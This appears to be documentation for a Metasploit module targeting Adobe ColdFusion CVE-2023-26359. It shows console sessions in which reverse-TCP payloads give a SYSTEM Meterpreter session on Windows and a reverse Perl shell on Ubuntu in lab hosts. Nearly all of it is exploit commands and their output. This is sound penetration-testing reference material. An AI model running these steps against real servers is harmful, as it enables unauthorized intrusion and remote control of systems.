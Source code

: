 ```
```

### Windows Dropper (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set target 2
target => 2
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
PAYLOAD => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > check
[*] 172.23.13.12:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Command Stager progress -   0.73% done (2047/279726 bytes)
[*] Command Stager progress -   1.46% done (4094/279726 bytes)

...snip...

[*] Command Stager progress -  99.52% done (278392/279726 bytes)
[*] Command Stager progress - 100.00% done (279726/279726 bytes)
[*] Meterpreter session 1 opened (172.23.9.70:4444 -> 172.23.13.12:57554) at 2023-04-06 12:23:48 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.13.12 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > 
```

### Linux Command (Adobe ColdFusion 2021 Update 5 on Ubuntu 22.04)
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set target 3
target => 3
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set PAYLOAD cmd/unix/reverse_perl
PAYLOAD => cmd/unix/reverse_perl
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > set RHOST 172.23.0.98
RHOST => 172.23.0.98
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > check
[*] 172.23.0.98:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26359) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Command shell session 2 opened (172.23.9.70:4444 -> 172.23.0.98:47598) at 2023-04-06 12:27:55 +0100

id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
pwd
/opt/ColdFusion2021/cfusion/bin
```
